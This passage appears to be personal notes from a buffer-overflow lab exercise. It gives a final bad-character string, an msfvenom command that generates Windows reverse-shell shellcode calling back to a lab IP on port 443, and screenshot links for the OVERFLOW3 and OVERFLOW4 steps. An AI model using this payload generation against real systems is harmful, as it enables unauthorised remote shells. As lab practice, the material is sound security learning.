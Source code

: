 Did two comparisons total.

Final bad char string: "\x00\x11\x40\x5f\xb8\xee"

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x11\x40\x5f\xb8\xee"`

Had to change jmp address for this one to  work:

![of3jmp](assets/markdown-img-paste-20210904101406641.png)

![of3-eipval](assets/markdown-img-paste-20210904101418558.png)

![of3-admin](assets/markdown-img-paste-20210904101432234.png)

## OVERFLOW4
![of4fuzz](assets/markdown-img-paste-20210904101737268.png)
